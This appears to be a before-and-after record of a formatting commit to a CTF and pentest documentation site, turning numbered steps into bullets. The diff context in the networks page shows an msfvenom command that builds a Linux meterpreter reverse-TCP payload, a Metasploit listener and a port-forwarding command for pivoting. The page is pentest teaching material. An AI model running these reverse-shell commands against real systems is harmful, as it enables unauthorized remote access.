

Before and after one commit to xanhacks/ctf-docs, an MkDocs documentation site: the page built from docs/others/install-arch-linux.md, in a window 1280 px wide and 900 px high, scrolled down 1702 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
add space to trigger dots

````diff
--- a/docs/others/install-arch-linux.md
+++ b/docs/others/install-arch-linux.md
@@ -84,6 +84,7 @@ nvme0n1 ...
 ```
 
 Partitions :
+
 1. EFI system partition (size : 260M, code: ef00)
 2. Linux swap (size: 4G, code: 8200)
 3. Linux filesystem (size: the rest of the disk, code: 8300)
--- a/docs/pentest/system/networks.md
+++ b/docs/pentest/system/networks.md
@@ -17,7 +17,7 @@ ssh -L 4444:127.0.0.1:8000 user@example.com
 
 ### Using metasploit (meterpreter)
 
-1. Generate the exploit with `msfvenom`.
+- Generate the exploit with `msfvenom`.
 
 ```bash
 $ msfvenom -p 'linux/x64/meterpreter_reverse_tcp' LHOST=10.132.0.2 LPORT=9001 -f elf > exploit.bin
@@ -31,7 +31,7 @@ $ file exploit.bin
 exploit.bin: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), static-pie linked, with debug_info, not stripped
 ```
 
-2. Setup listener
+- Setup listener
 
 ```bash
 $ msfconsole
@@ -51,7 +51,7 @@ msf6 exploit(multi/handler) > run
 meterpreter >
 ```
 
-3. Do port forwarding
+- Do port forwarding
 
 ```
 meterpreter > portfwd add -l 4444 -p 8000 -r 127.0.0.1
````
Also changed, not shown: docs/pentest/web/burpsuite.md (added, +6 -0 lines).
